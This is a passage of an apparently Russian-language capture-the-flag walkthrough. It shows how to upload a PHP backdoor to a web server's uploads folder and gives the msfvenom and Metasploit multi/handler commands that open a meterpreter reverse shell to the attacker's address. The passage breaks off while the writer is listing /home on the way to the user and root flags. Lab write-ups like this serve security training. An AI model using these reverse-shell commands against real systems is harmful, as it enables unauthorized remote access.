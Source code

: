 ![[Pasted image 20230704133602.png]]

Внутри директории /html находится папка uploads. Таким образом, мы можем легко скомпрометировать целевую систему, загрузив бэкдор.

![[Pasted image 20230704133634.png]]

## Создание обратной оболочки

При помощи утилиты msfvenom мы создали вредоносный файл shell.php, используя следующую команду:

```
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.28 lport=4444 -f raw
```

Одновременно запускаем multi/handler для обратного соединения с компьютера жертвы:

![[Pasted image 20230704133818.png]]
![[Pasted image 20230704133826.png]]

Для передачи файла мы использовали простейший Python HTTP-сервер. Вы также можете использовать альтернативный метод для передачи и загрузки вредоносного файла через wget в директорию uploads.

## Загрузка обратной оболочки

![[Pasted image 20230704133927.png]]

Теперь запускаем вредоносный файл shell.php через браузер, как показано на рисунке ниже, и переключаемся на Metasploit Framework для обратного соединения.

## Запуск обратной оболочки

![[Pasted image 20230704134140.png]]

После запуска бэкдора переходим в Metaslploit Framework и ожидаем сессию в meterpreter.

```bash
msf use exploit/multi/handler
msf exploit(multi/handler) set payload php/meterpreter/reverse_tcp
msf exploit(multi/handler) set lhost 10.10.14.28
msf exploit(multi/handler) set lport 4444
msf exploit(multi/handler) exploit
```

На рисунке ниже показана сессия meterpreter session1, которая используется для доступа к tty-шеллу на компьютере жертвы.

Теперь переходим к решению нашей задачи, а конкретно – к получению содержимого файлов user.txt и root.txt. Вначале посмотрим содержимое директории /home.

```bash
cd home
ls
```
